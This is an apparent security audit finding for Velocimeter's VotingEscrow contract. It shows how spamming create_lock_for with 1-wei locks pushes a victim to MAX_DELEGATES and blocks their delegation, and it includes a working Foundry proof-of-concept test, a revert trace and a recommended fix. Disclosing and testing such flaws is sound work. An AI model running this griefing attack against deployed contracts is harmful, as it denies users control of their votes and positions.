 Warm Denim Mantis

Medium

# Malicious User can spam `VotingEscrow::create_lock_for` to DoS a user from creating their own position or delegating their votes

## Summary
A malicious user it able to call `VotingEscrow::create_lock_for`, locking only a single wei, as many times as they wish. This means that, a user could use this to put an address at `VotingEscrow::MAX_DELEGATES`.
Doing so would mean two things:
1. The user cannot create any new locks of their own.
2. The user cannot delegate their votes to another address that has tokens of their own.

## Vulnerability Detail
The `VotingEscrow::create_lock_for` function allows users to create locks on behalf of another address. During this process the recipient is minted an ERC-721 token. However the contract has logic in place to ensure that no addresses token balance goes above `MAX_DELEGATES` (1024). This combined with the low economic cost for the attacker to create a lock (they can lock 1 wei of LP tokens) means it would be relatively simple for an attack to temporarily DoS a user ability to create a lock of their own or their ability to delegate their votes to another user as both actions would revert because of the `MAX_DELEGATES` check.

Additionally the attacker could instead do the same but create locks for the delegatee causing the same result when the user attempts to delegate their votes to them. 

**Proof Of Concept**
Consider one example of this attack vector:
1. Alice calls `VotingEscrow::create_lock` to lock her LP tokens
2. Alice's delegate choice creates a lock of their own
3. Bob calls `VotingEscrow::create_lock_for` with Alice as the `_recipient` 1023 times so Alice hits the 1024 cap
4. Alice attempts to delegate her votes to her delegate choice, but the function reverts as their combined balances would equal > MAX_DELEGATES

Add the following test to `VotingEscrow.t.sol` to highlight this issue:
```solidity
    function test_Toad_HitMaxDelegates() public {
        // Get Alice LP tokens
        address alice = makeAddr("alice");
        DAI.mint(alice, 100 ether);
        FLOW.mint(alice, 100 ether);
        // Alice creates a position in VotingEscrow
        vm.startPrank(alice);
        DAI.approve(address(router), 100 ether);
        FLOW.approve(address(router), 100 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            100 ether,
            100 ether,
            0,
            0,
            alice,
            block.timestamp
        );
        flowDaiPair.approve(address(escrow), type(uint256).max);
        escrow.create_lock(flowDaiPair.balanceOf(alice), 31 days);
        vm.stopPrank();

        // Get Bob LP tokens
        address bob = makeAddr("bob");
        DAI.mint(bob, 100 ether);
        FLOW.mint(bob, 100 ether);
        // Alice creates a position in VotingEscrow
        vm.startPrank(bob);
        DAI.approve(address(router), 100 ether);
        FLOW.approve(address(router), 100 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            100 ether,
            100 ether,
            0,
            0,
            bob,
            block.timestamp
        );
        flowDaiPair.approve(address(escrow), type(uint256).max);
        // Bob spams create_lock_for to Alice 1023 times (+ alice's own == 1024)
        for(uint256 i; i < 1023; i++) {
            // Only costing the user 1 wei of LP token (+ gas)
            escrow.create_lock_for(1, 31 days, alice);
        }
        vm.stopPrank();

        // Alice then attempts to delegate their tokens but reverts
        address aliceDelegatee = makeAddr("delegatee");
        // Delegatee also has their own position
        DAI.mint(aliceDelegatee, 100 ether);
        FLOW.mint(aliceDelegatee, 100 ether);
        vm.startPrank(aliceDelegatee);
        DAI.approve(address(router), 100 ether);
        FLOW.approve(address(router), 100 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            100 ether,
            100 ether,
            0,
            0,
            aliceDelegatee,
            block.timestamp
        );
        flowDaiPair.approve(address(escrow), type(uint256).max);
        escrow.create_lock(flowDaiPair.balanceOf(aliceDelegatee), 31 days);
        vm.stopPrank();

        // Alice tries to delegate her votes
        vm.prank(alice);
        vm.expectRevert();
        escrow.delegate(aliceDelegatee);
    }
```
The test reverts with the following stack traces:
```solidity
    ├─ [789697] VotingEscrow::delegate(delegatee: [0x0b3FCb9Fc3560A798cEBe519d5DbFd585C081E5b])
    │   ├─ emit DelegateChanged(delegator: alice: [0x328809Bc894f92807417D2dAD6b7C998c1aFdac6], fromDelegate: alice: [0x328809Bc894f92807417D2dAD6b7C998c1aFdac6], toDelegate: delegatee: [0x0b3FCb9Fc3560A798cEBe519d5DbFd585C081E5b])
    │   └─ ← [Revert] revert: dstRep would have too many tokenIds
```
## Impact
If the attacker sent the user 1024 tokens the user would be unable to create their own lock position without first transferring out some of these tokens.
Alternatively if the user already had a position and the attacker sent the remainder required to hit 1024 the user would then not be able to delegate their votes to someone who also has a lock position as it would take the delegatee over the `MAX_DELEGATES` threshold.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L865

## Tool used

Manual Review

## Recommendation
`VotingEscrow::create_lock_for` should have a minimum `_value` requirement to ensure the economic cost of this griefing attack is sufficiently high to deter attackers from attempting it.